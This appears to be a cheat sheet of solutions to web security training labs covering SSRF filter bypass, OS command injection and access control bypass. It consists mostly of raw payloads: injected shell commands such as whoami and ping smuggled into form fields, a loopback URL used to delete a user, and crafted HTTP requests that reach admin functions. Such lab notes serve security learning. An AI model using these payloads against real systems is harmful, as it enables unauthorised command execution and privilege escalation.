 - To bypass blacklist: `stockApi=http://127.1/adMin`
- To delete: `stockApi=http://127.1/adMin/delete?username=carlos`

## OS Command Injection

#### OS command injection, simple case

`productId=1&storeId=|whomai`


#### Blind OS command injection with time delays

```
csrf=ACtoLu65ZQblZkPxgsjN3bCdO4SNlF9T&name=a&email=%26ping+-c+10+127.0.0.1%26&subject=a&message=a
```

#### Blind OS command injection with output redirection

```
csrf=ZKzD18id7LGpEjMmT0E1CkZS0NNibAZ7&name=a&email=%26+whoami+>+/var/www/images/asdf+%26&subject=a&message=a
https://aca51f4f1e9c8ff3808792b8004000fd.web-security-academy.net/image?filename=asdf
```

#### Blind OS command injection with out-of-band interaction
Requires Burp Suite Professional.

#### Blind OS command injection with out-of-band data exfiltration
Requires Burp Suite Professional.

## Access Control

```
Unprotected admin functionality: robots.txt
Unprotected admin functionality with unpredictable URL: view source => js to check admin => /admin-uhsegl
User role controlled by request paramter: login as wiener/peter => go to /admin
User role can be modified in user profile: 
```

#### URL-based access control can be circumvented

```http
POST / HTTP/1.1
Cookie: session=FQxqrQ8PJHEBARHT7se4bxv6sqHGrQJD
X-Original-URL: /admin
```

#### Method-based access control can be circumvented
```
Login as wiener/peter:
PUT /admin-roles HTTP/1.1
Cookie: session=UdlpEENsbTjmMhi15gFrGZLzPJlprpTK
username=wiener&action=upgrade
```
